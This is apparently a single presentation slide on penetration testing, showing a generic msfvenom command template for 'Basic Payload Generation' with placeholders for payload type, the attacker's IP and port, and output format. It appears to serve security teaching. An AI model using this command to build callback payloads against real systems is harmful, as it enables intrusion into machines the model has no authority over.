

# Basic Payload Generation:
Command:
msfvenom -p [payload_type] LHOST=[Your_IP] LPORT=[Port_Number] -f [format] > output_filename